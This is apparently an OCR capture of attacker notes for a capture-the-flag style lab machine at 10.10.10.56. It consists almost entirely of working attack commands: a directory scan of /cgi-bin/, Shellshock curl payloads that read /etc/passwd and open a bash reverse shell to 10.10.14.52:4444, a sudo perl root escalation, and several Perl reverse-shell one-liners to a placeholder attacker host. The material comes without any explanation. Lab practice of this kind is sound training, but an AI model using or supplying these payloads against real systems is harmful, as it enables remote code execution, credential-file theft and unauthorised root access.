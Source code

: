 root@gusli:~/dirsearch# python3 dirsearch.py -u http://10.10.10.56/cgi-bin/ -e "sh,py,cgi,pl" -t 50  
  
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://10.10.10.56/cgi-bin/user.sh  
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.52/4444 0>&1'" http://10.10.10.56/cgi-bin/user.sh  
  
sudo /usr/bin/perl -e 'exec "/bin/sh"'  
  
  
#Perl Reverse Shell  
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'  
#Perl Windows Reverse Shell  
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'  
#  
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'